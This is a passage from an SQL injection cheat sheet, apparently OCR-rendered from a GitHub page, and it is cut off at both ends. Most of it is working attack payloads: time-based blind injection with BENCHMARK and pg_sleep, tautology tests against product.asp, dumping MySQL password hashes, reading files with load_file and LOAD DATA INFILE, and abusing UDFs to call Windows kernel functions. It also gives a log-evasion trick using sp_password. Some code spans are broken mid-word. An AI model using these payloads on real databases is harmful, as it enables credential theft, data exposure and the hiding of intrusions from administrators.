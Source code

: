 `BENCHMARK(howmanytimes, do this)`

#### Real World Samples

-   Are we root ? woot!  
    `IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))`  
      
    
-   Check Table exist in MySQL  
    `IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))`  
    

#### pg_sleep(seconds) (P)

Sleep for supplied seconds.

-   `SELECT pg_sleep(10);`  
    Sleep 10 seconds.

## Covering Tracks

#### SQL Server -sp_password log bypass (S)

SQL Server don't log queries which includes sp_password for security reasons(!). So if you add --sp_password to your queries it will not be in SQL Server logs (_of course still will be in web server logs_,  _try to use POST if it's possible_)

## Clear SQL Injection Tests

These tests are simply good for blind sql injection and silent attacks.

1.  `product.asp?id=4 (SMO)`
    1.  `product.asp?id=5-1`
    2.  `product.asp?id=4 OR 1=1  
          
        `
2.  `product.asp?name=Book`
    1.  `product.asp?name=Bo’%2b’ok`
    2.  `product.asp?name=Bo’ || ’ok (_OM_)`
    3.  `product.asp?name=Book’ OR ‘x’=’x`

## Some Extra MySQL Notes

-   Sub Queries are working only MySQL 4.1+
-   Users
    -   `SELECT User,Password FROM mysql.user;`
-   `SELECT 1,1 UNION SELECT IF(SUBSTRING(Password,1,1)='2',BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = ‘root’;`
-   `SEL``ECT ... INTO DUMPFILE`
    -   `Write quer``y into a  **new file** (_can not modify existing file_s)`
-   UDF Function
    -   `create function LockWorkStation returns integer soname 'user32';`
    -   `select LockWorkStation();  
        `
    -   `create function ExitProcess returns integer soname 'kernel32';`
    -   `select exitprocess();`
-   `SELECT USER();`
-   `SELECT password,USER() FROM mysql.user;`
-   First byte of admin hash
    -   `SELECT SUBSTRING(user_password,1,1) FROM mb_users WHERE user_group = 1;`
-   Read File
    -   `query.php?user=1+union+select+load_file(0x63...),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`
-   MySQL Load Data inifile  
    -   **By default it’s not avaliable !**
        -   `create table foo( line blob );  
            load data infile 'c:/boot.ini' into table foo;  